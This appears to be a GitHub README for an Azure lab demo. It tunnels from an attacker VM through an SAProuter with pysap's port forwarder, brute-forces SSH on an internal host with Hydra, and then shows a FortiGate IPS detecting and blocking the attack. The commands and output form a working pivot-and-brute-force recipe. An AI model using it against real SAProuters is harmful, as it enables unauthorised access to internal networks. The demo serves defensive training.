




# How-to: Demo Environment

In this documentation you will find a guideline how the demo can be done.

### Communication diagram

```text
.-------------------..------------..-----------------..-------------------.
|attacker-vm(public)||fortigate-vm||saprouter-vm(dmz)||target-vm(internal)|
'-------------------''------------''-----------------''-------------------'
          |                |                |                   |          
          |     SAP NI     |                |                   |          
          |--------------->|                |                   |          
          |                |                |                   |          
          |                |     SAP NI     |                   |          
          |                |--------------->|                   |          
          |                |                |                   |          
          |                | SSH connection |                   |          
          |                |<---------------|                   |          
          |                |                |                   |          
          |                |           SSH connection           |          
          |                |----------------------------------->|          
          |                |                |                   |          
          |                |           SSH connection           |          
          |                |<-----------------------------------|          
          |                |                |                   |          
          |                | SSH connection |                   |          
          |                |--------------->|                   |          
          |                |                |                   |          
          |                |     SAP NI     |                   |          
          |                |<---------------|                   |          
          |                |                |                   |          
          |     SAP NI     |                |                   |          
          |<---------------|                |                   |          
.-------------------..------------..-----------------..-------------------.
|attacker-vm(public)||fortigate-vm||saprouter-vm(dmz)||target-vm(internal)|
'-------------------''------------''-----------------''-------------------'

```


## Deplyoment

Deploy the Lab Enviroment in Azure.
Example output:
```bash
$ terraform init
...[snip]...
$ terraform apply --var-file variables.tfvars -auto-approve
...[snip]...
Outputs:

FGT-Username = "fgt-admin-user"
OS-Username = "saprouter-demo-admin"
Password = "<REDACTED>"
private_ip_attacker = "10.0.1.5"
private_ip_saprouter = "10.0.2.4"
private_ip_target = "10.0.3.4"
public_ip_attacker = "40.70.40.198"
public_ip_fortigate = "13.68.17.252"
```


## Connect to the Demo Environment

* Connect via SSH to the `attacker-vm`

```bash
$ ssh -i ssh_key.pem saprouter-demo-admin@40.70.40.198
...[snip]...
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
saprouter-demo-admin@vm-attacker:~$
```


* check that SAProuter System is running by doing a test connect via netcat against Port 3299 on the `saprouter-vm`

```bash
$ nc 10.0.2.4 3299
bla
NI_RTERR(�����*ERR*1Network packet too big-93NI (network interface)75340/bas/753_REL/src/base/ni/nibuf.cpp2961NiBufIIn: message length 1651269898 exceeds max (10024)Mon Apr 26 07:29:22 20213SAProuter 40.4 on 'vm-saprouter'*ERR*
```

The Output should show a similar Error Message from the SAProuter application.

## Run the Demo

### BruteForce SSH through SAProuter

* start the SAProuter portforwarding for SSH to our Target

```bash
$ cd /opt/pysap/examples

$ python2 router_portfw.py -d 10.0.2.4 -p 3299 -t 10.0.3.4 -r 22 -a 127.0.0.1 -l 2222 --talk-mode raw
[*] Setting a proxy between 127.0.0.1:2222 and remote SAP Router 10.0.2.4:3299 (talk mode raw)
```

* validate that we are now listening in port `2222` on `localhost`

```bash
$ ss -tlnp
State       Recv-Q      Send-Q           Local Address:Port           Peer Address:Port     Process
LISTEN      0           4096             127.0.0.53%lo:53                  0.0.0.0:*
LISTEN      0           128                    0.0.0.0:22                  0.0.0.0:*
LISTEN      0           5                    127.0.0.1:2222                0.0.0.0:*         users:(("python2",pid=7808,fd=3))
LISTEN      0           128                       [::]:22                     [::]:*
```

* Do an brute-force against our `target-vm` through the `saprouted-vm`. (This can take about 3-5 min.)

```bash
$ hydra -l azureuser -P /opt/wordlists/passwords.txt ssh://127.0.0.1:2222
...[snip]...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16983 login tries (l:17/p:999), ~1062 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
...[snip]...
[2222][ssh] host: 127.0.0.1   login: azureuser   password: Sojdlg123aljg
1 of 1 target successfully completed, 1 valid password found
```

### Show attack on FortiGate

* open URL of FortiGate admin panel `https://<IP>`

  

* Switch to `Log&Report - Forward Traffic` to view the attack traffic

  
  
  You will see, that FortiGate has detected `SAP.Router` traffic going into `saprouter-vm`but `SSH`traffic is coming out and going to our internal server.

### Prevent Attack

* Enable IPS policy which prevents SSH Bruteforce. Select the IPS profile `block_SSH_bruteforce`

  

* redo the SSH brute force attack to show, that our IPS will block the SSH attempts after some tries. This time it will never be successfull because IPS is blocking the attempts. So you can abort the attack after about 3 min.

```bash
$ hydra -l azureuser -P /opt/wordlists/passwords.txt ssh://127.0.0.1:2222
...[snip]...
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 145.00 tries/min, 145 tries in 00:01h, 855 to do in 00:06h, 16 active
```


* Show the attack in the IPS log

  

